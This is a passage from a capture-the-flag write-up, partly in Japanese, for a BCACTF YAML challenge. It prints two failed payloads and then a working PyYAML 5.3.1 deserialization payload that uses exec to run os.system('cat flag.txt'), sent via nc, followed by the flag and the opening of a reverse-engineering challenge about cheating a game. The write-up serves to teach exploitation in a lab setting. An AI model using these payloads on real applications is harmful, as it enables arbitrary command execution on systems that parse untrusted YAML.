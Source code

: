 <pre>
$ echo '!!python/object/apply:os.system ["cat flag.txt"]' | nc misc.bcactf.com 49154
Paste in your chall.yaml file, then send an EOF:
Fatal error: could not determine a constructor for the tag 'tag:yaml.org,2002:python/object/apply:os.system'
  in "<unicode string>", line 1, column 1:
    !!python/object/apply:os.system  ...
    ^

echo '!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "cat flag.txt" ]]]' | nc misc.bcactf.com 49154
Paste in your chall.yaml file, then send an EOF:
Fatal error: invalid syntax (<string>, line 1)
</pre>

<br>

PyYAML 5.3.1 の脆弱性をググって、見つかったPoCをいろいろ試したところ、<br>
[https://hackmd.io/@harrier/uiuctf20](https://hackmd.io/@harrier/uiuctf20) に書かれていた方法でフラグが取れました。

<pre>
$ cat poc5.txt
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x5f\x5fimport\x5f\x5f('os')\x2esystem('cat flag\x2etxt')"

$ cat poc5.txt | nc misc.bcactf.com 49154
Paste in your chall.yaml file, then send an EOF:
bcactf{y0u_r3ally_0verc00k3d_th05e_yams_j5fc9g}
</pre>

<br />

Flag: `bcactf{y0u_r3ally_0verc00k3d_th05e_yams_j5fc9g}`



<br /><br />
<br /><br />
## [Rev]: A Fun Game (100 points)
- - -
### Challenge
> A really fun game where you have to type the correct letter 1000 times to get the flag! It won't take that long, right? It's not like there's another way to do it...
<br /><br />
Note, The executable is built for Linux and can be run with mono Game.exe
<br /><br />
Hint1: Is it possible to modify the variable storing your points?
<br />
Hint2: What does a program like GameConqueror or CheatEngine do?

Attachment:

- Game.exe
